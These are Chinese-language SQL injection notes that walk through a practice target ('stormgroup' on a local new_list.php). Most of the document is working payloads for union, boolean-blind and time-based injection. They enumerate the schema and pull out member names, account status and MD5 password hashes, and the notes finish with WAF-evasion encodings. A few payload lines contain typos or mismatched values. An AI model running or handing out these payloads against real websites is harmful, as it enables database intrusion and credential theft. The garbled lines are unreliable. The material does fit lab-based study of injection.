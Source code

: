 # sql
注入
联合注入
判断是否有注入点
' and 1=1--+
猜列数
'order by 1--+ 一直猜到5报错，列数为4
猜库
'and 1=1改为and 1=2
'and 1=2 union select 1,2,3,4--+发现标题为2，内容为3
'and 1=2 union select 1,user(),database(),4--+
' and 1=2 union select 1,database(),schema_name,4 from information_schema.schemata limit 0,1--+
' and 1=2 union select 1,database(),schema_name,4 from information_schema.schemata limit 1,1--+
' and 1=2 union select 1,database(),schema_name,4 from information_schema.schemata limit 2,1--+
' and 1=2 union select 1,database(),schema_name,4 from information_schema.schemata limit 3,1--+
' and 1=2 union select 1,database(),schema_name,4 from information_schema.schemata limit 4,1--+
得到五个数据库
爆表
' and 1=2 union select 1,database(),table_name,4 from information_schema.tables where table_schema='admin' limit 0,1--+
' and 1=2 union select 1,database(),table_name,4 from information_schema.tables where table_schema='admin' limit 1,1--+
猜表里面的列名
' and 1=2 union select 1,database(),column_name,4 from information_schema.columns where table_name='member' limit 0,1--+
' and 1=2 union select 1,database(),column_name,4 from information_schema.columns where table_name='member' limit 1,1--+
' and 1=2 union select 1,database(),column_name,4 from information_schema.columns where table_name='member' limit 2,1--+
' and 1=2 union select 1,database(),column_name,4 from information_schema.columns where table_name='member' limit 3,1--+
得到四个列名id，name，password，status
查询用户名和密码
' and 1=2 union select 1,name,password,4 from member limit 0,1--+
' and 1=2 union select 1,name,password,4 from member limit 1,1--+
得到两组md5加密的密码 用md5解密即可
盲注
数据库长度：http://127.0.0.1/new_list.php?id=1 and length(database())=10 --+
2.爆数据库名：
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),1,1))=115 --+  s  
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),2,1))=116 --+  t
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),3,1))=111--+   o
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),4,1))=114--+   r
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),5,1))=109--+   m
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),6,1))=103--+   g
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),7,1))=114--+   r
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),8,1))=111--+   o
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),9,1))=117--+   u
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select database()),10,1))=112--+  p
数据库名：stormgroup

3.爆表名：
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 0,1),1,1))=109 --+           m


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 0,1),2,1))=101 --+            e 


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 0,1),3,1))=109 --+            m


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 0,1),4,1))=98 --+              b   


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 0,1),5,1))=101 --+           e 


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 0,1),6,1))=114 --+           r

表一：member

http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from     information_schema.tables where table_schema='stormgroup' limit 1,1),1,1))=110 --+          n


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 1,1),2,1))=111 --+          o


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 1,1),3,1))=116 --+          t


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 1,1),4,1))=105 --+          i


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 1,1),5,1))=99 --+           c


http://127.0.0.1/new_list.php?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='stormgroup' limit 1,1),6,1))=101 --+         e


表二：notice

3.爆字段：
http://127.0.0.1/new_list.php?id=1 and length((select column_name from information_schema.columns where table_name='member' and table_schema='stormgroup' limit 0,1))=4 --+                 长度为4

http://127.0.0.1/new_list.php?id=1 and ascii(substr((select column_name from information_schema.columns where table_name='member' and table_schema='stormgroup' limit 0,1),1,1))=110 --+             n

http://127.0.0.1/new_list.php?id=1 and ascii(substr((select column_name from information_schema.columns where table_name='member' and table_schema='stormgroup' limit 0,1),2,1))=97 --+               a

http://127.0.0.1/new_list.php?id=1 and ascii(substr((select column_name from information_schema.columns where table_name='member' and table_schema='stormgroup' limit 0,1),2,1))=109 --+             m

http://127.0.0.1/new_list.php?id=1 and ascii(substr((select dump from information_schema.columns where table_name='member' and table_schema='stormgroup' limit 0,1),2,1))=101 --+             e

字段一：name

http://127.0.0.1/new_list.php?id=1 and length((select column_name from information_schema.columns where table_name='member' and table_schema='stormgroup' limit 1,1))=8 --+

字段二：猜想为password

字段三
http://127.0.0.1/new_list.php?id=1 and length((select column_name from information_schema.columns where table_name='member' and table_schema='stormgroup' limit 2,1))=6 --+   长度为6，猜想字段名为status(显示1账户可用，0不可用）

4.爆字段内容：
先爆status字段内容：
http://127.0.0.1/new_list.php?id=1 and length((select concat(status) from stormgroup.member limit 0,1))=1 --+          长度为一
http://127.0.0.1/new_list.php?id=1 andascii(substr((select concat(name) from stormgroup.member limit 0,1),1,1))=48 --+         0
账户状态为0不可用

http://127.0.0.1/new_list.php?id=1 and length((select concat(status) from stormgroup.member limit 1,1))=1 --+           长度为一
http://127.0.0.1/new_list.php?id=1 andascii(substr((select concat(name) from stormgroup.member limit 1,1),1,1))=49 --+         1
 账户状态为1可用

name字段
http://127.0.0.1/new_list.php?id=1 and length((select concat(name) from stormgroup.member limit 1,1))=5 --+             长度为5
http://127.0.0.1/new_list.php?id=1 and ascii(substr((select concat(name) from stormgroup.member limit 1,1),1,1))=109 --+     m

http://127.0.0.1/new_list.php?id=1 and ascii(substr((select concat(name) from stormgroup.member limit 1,1),2,1))= 111--+      o

http://127.0.0.1/new_list.php?id=1 and ascii(substr((select concat(name) from stormgroup.member limit 1,1),3,1))=122 --+       z
.......猜想库名为mozhe


password字段
http://127.0.0.1/new_list.php?id=1 and length((select concat(password) from stormgroup.member limit 1,1))=32 --+            长度为32。。。。晕，太多了，上sqlmap，拿32位md5值。

延时注入
在MySql延时注入里用到函数为：(与盲注基本差不多)
sleep(*)延长查询时间，延长*秒
if(exp1,exp2,exp3)如果exp1为假，那么执行exp2，否则执行exp3
ascii()==ord()将字符传转化为ASCII码
substr()==mid()截取字符串
这里使用延时注入方法继续注入，这里测试数据库用户长度使用的POC为
and if(length(user()>1),1,sleep(5))
测试数据库用户长度，测试时发现页面返回未出现延时，证明数据库用户长度大于1
续测试，发现将数字调为20时，服务器又出现了延时，因此判断数据库长度为1-20之间。
过一番测试，发现数据库用户长度为14，其实mysql数据库使用root用户连接时，查询到的就是14位，用户为root@localhost
接下去就可以根据常规盲注的方法进行注入了，思路就是这种，下面就不一一测试了，其实可以用sqlmap直接跑，那样会很快，我在这里只是想介绍延时注入的本质，以及MySql延时注入手工注入的方法。

总结：

基于时间的盲注也叫做延时注入，其实说白了就是根据服务器返回时候延时来判断我们注入的查询语句是否执行正确。出发点就是回到基于布尔的SQL盲注，也就是构造查询语句来判断结果是否为真。
在注入时，当页面不会有任何提示，无法判断是否注入成功时使用延时注入。
使用IF（查询语句，1，sleep（5）），即如果查询语句为真，那么直接返回结果；如果查询语句为假，那么过5秒之后返回页面。
反之：
例如：
if(ascii(subtring("hello",1,1))=104,sleep(5),1)
可以看到，取出"hello"里的第一个字符串，也就是"h",判断他的ascii码是否为104("h"的ascii码为104),如果是则延时5秒，反之不延时。
同样，我们可以在substring函数里面写SQL语句，提取出我们所要查的表名、列名，再用延时猜解出来。
例如：
if(ascii(substring((select distinct concat(table_name) FROM information_schema.tables where table_schema=database() limit 0,1),1,1))=116,sleep(5),1);
同样的，我们可以嵌入SQL语句带入查询，配合以上函数即可猜出表名第一个字母的ascii码为117，即"u"。
猜解列名也是差不多的用法。

Waf绕过：

' order by 4 
\u0026\u0023\u0033\u0039\u003b\u0020\u006f\u0072\u0064\u0065\u0072\u0020\u0062\u0079\u0020\u0034

“and (length(database()))>0-- URL编码：%22and%20(length(database()))%3E0
+UnIon/**/SeLecT 1,2,3 
/*!UnIon*/SeLecT 1,2,3
id=181+(union)+(sel)+(ct)+1,2,3

.asp?id=1 and true# 对a进行Unicode编码  asp?id=1 %61nd true#
